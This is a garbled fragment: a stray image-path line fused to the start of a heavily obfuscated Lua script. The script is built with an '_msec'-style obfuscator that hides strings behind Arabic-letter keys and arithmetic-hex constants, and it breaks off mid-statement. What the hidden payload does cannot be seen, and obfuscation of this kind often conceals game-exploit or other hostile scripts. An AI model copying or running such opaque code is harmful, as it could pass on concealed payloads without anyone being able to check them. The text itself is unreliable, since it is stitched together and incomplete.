 ,nil,nil;(function() _msec=(function(e,o,l)local H=o["حكڝئضزندكټكججحجك"];local z=l[e[(1361-0x2be)]][e["ؠڝضنضڪدڝئدزڪ؃"]];local g=(61-0x39)/(((69+-0x56)-16)+0x23)local s=(35-((0x55ca/158)-106))-(0x78-119)local p=l[e[(0x4af2/(292-0xba))]][e["ؠدؠحئ؃ح؃ئئ"]];local j=((179+(-0x7e+31))-83)+(0x1f+-29)local N=l[e[(1094-0x23b)]][e["دحجحدحزټدؠټزؠجدڝججك"]]local d=(500/0xfa)-((-0x4b+(0x26b-362))/182)local i=(16/(0x18+((-0xaf870/(0x880e/162))/0xd1)))local w=(0x5c+((-81-(-0x2ed/107))-16))local b=(84-(0xbd-(15836/(0x165-209))))local n=(-0x3e+(0xa6+((-0x1a796c/243)/70)))local x=(0x76-(0xf9-(0xb1+(-396/0x9))))local h=((23+((-0x41+-1995)/0x14))+0x52)local c=((0x1f194/((0x132bee/186)/0x23))/220)local f=(((0x503488/(0x256-(722-0x179)))/0xd4)-0x5f)local k=((248-((0x2cda-5788)/39))-0x63)local U=(114/((0x14c-((0x6390/54)-251))-0x49))local _=(660/((5600320/(351-0xcb))/172))local O=((0x32-(108+(-0x11-(0x16+-17))))+0x27)local S=((17920/(-115+(0x131e5/231)))/0x14)local P=(35+((0x80-(0xff-147))+-0x33))local B=(65-(((0x16c6c-46685)/0xdf)-0x94))local u=((-2184/((-0x6c+2796)/96))+82)local t=((0x46e6/(0x4b69/(0x149-212)))-0x6a)local v=((0x130-(0x9389/(0x1a60/32)))-121)local Q=e[(2798-(222735/0x9b))];local V=l[e[(259+-0x4e)]][e["ضد؃ټنج؃ټكضس"]];local R=l[(function(e)return type(e):sub(1,1)..'\101\116'end)('آضئڝقټجد')..'\109\101'..('\116\97'or'؃ؠكححئجز')..e[(-0x32+573)]];local y=l[e[((-0x28+681)+-0x76)]][e["نټقض؃ئحؠ؃سټضڪحڝآزڝ"]];local L=(60+-0x3a)-(0x70/((0x8547/153)-0xa7))local m=((0xfa-((-0x1a+-94)+275))+-0x5d)-(67+-0x41)local G=l[e[((0x3b4-482)-0x11d)]][e["ئسڝقنحضدز"]];local r=function(e,l)return e..l end local A=(700/0xaf)*(-0x60+((-17+-0x50)+197))local K=l[e["ڪټئحقټجڪڪزززئضڪ"]];local D=(-0x6e+112)*(((151-0x6f)-71)+159)local J=(0x1ec00/123)*(((0x8b2-1167)-563)/0xf8)local W=(153+(-0xd+((-0xa818/3)/0xa3)))local C=((0x108-(38368/0xda))+-86)*(0x47-69)local M=l[e["ڪآسټقكئقجنن؃؃؃"]]or l[e[(96232/0xb8)]][e["ڪآسټقكئقجنن؃؃؃"]];local a=(0x268-((69193+-0x49)/0xc0))local e=l[e["ضؠزكڝضسحآ"]];local Y=(function(r)local n,o=2,0x10 local l={j={},v={}}local a=-d local e=o+s while true do l[r:sub(e,(function()e=n+e return e-s end)())]=(function()a=a+d return a end)()if a==(A-d)then a=""o=L break end end local a=#r while
e